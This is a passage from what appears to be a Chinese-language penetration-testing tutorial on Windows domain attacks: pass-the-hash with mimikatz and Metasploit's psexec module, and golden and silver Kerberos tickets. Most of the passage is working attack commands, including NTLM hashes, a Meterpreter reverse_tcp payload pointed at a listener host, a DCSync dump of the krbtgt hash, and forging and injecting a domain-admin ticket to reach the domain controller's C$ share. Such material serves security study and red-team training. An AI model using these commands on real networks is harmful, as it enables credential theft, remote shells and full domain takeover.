 `#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击 sekurlsa::pth /user:administrator /domain:"xie.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5` 

Copy

`#使用域用户xie的NTLM哈希值对域控进行哈希传递攻击 sekurlsa::pth /user:xie /domain:"xie.com" /ntlm:329153f560eb329c0e1deea55e88a1e9`   

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160652568-1867019301.png)

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160707705-1807263801.png)

#### 4.3 MSF进行哈希传递

Copy

有些时候，当我们获取到了某台主机的Administrator用户的LM-Hash和 NTLM-Hash ，并且该主机的445端口打开着。我们则可以利用 `exploit/windows/smb/psexec` 漏洞用MSF进行远程登录(哈希传递攻击)。(只能是administrator用户的LM-hash和NTLM-hash)，这个利用跟工作组环境或者域环境无关。

Copy

`msf > use  exploit/windows/smb/psexec msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp msf exploit(psexec) > set lhost 192.168.10.27 msf exploit(psexec) > set rhost 192.168.10.14 msf exploit(psexec) > set smbuser Administrator msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了 msf exploit(psexec) > exploit` 

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160932393-2038942006.png)

### 0x05 票据传递攻击(PTT)

#### 5.1 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:

Copy

`mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"`

利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：

Copy

`kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi`

Copy

`#导入刚才生成的票据 kerberos::ptt test.kiribi  #导入成功后可获取域管权限 dir \\dc.abc.com\c$`

#### 5.2 白银票据

黄金票据和白银票据的一些区别：Golden Ticket：伪造TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS ，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

Copy
